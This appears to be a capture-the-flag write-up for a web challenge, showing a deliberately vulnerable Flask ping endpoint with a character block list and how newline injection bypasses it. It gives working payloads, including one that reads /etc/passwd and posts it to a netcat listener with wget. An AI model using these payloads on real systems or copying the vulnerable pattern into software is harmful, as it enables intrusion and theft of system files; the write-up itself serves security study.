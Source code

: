 ```yaml
---
title: "CYBEX - TakitoChall [ WEB ]"
date: 2022-02-27T18:35:38-05:00
draft: false
---
```


## __Introduction__

The objective of this challenge is to get an RCE, specifically to get the output of the `cat /etc/passwd` command.

```python
from flask import Flask
from flask import request
from os import system

app = Flask(__name__)

@app.route('/')
def rce():
    ip = request.args.get('ip')

    if ip is None:
        return 'Please use ?ip=127.0.0.1'

    for char in '&;|$()`':
        if char in ip:
            return 'Character {} is blocked'.format(char)

    system('ping -c 1 '+ip)
    return 'Ping sent'

if __name__ == '__main__':
    app.run()
```

Before starting the analysis we can notice at a glance that a ping is performed to the address we set in the `ip` parameter.

## __First sight__

When analyzing the code we notice that in line 14 we have several banned characters such as `&;|$()` and `. This is logical since command injection payloads usually carry these characters, as we can see in the following [link](https://github.com/payloadbox/command-injection-payload-list).

Another option we could try would be to convert them to another format such as base64, unicode, hexadecimal and various conversions that would help us achieve what we are looking for.

## __Exploitation__

In this case we are dealing with a CRLF injection. If you want to know more about this type of web vulnerability you can do so by clicking on the following [link](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) which will redirect you to the official HackTricks website which has a very good review about this bug.

Once we know what we are dealing with, we can now crack the following code by typing in the `ip=` parameter the following payload:

```
%0Aid
```

![image](https://user-images.githubusercontent.com/88755387/154855417-06bf8edb-aff1-407d-8ded-8e92254209a0.png)

![image](https://user-images.githubusercontent.com/88755387/154855372-70dc930a-1785-4137-99f7-ccaaa5774058.png)

As we can see we have taken the output in the log which would be on the server side but what we are looking for is to print the output on the screen so that the client can view it.

With the following command and raising the port 443 we can get the output to our machine:

```
%0Awget --post-file=/etc/passwd 127.0.0.1:443
```

![image](https://user-images.githubusercontent.com/88755387/154859783-dcaae268-dd39-4616-afbc-63b40e775a54.png)

One line payload:

```
nc -lvp 443 & curl 127.0.0.1:5000/?ip=%0Awget%20--post-file=/etc/passwd%20127.0.0.1:443
```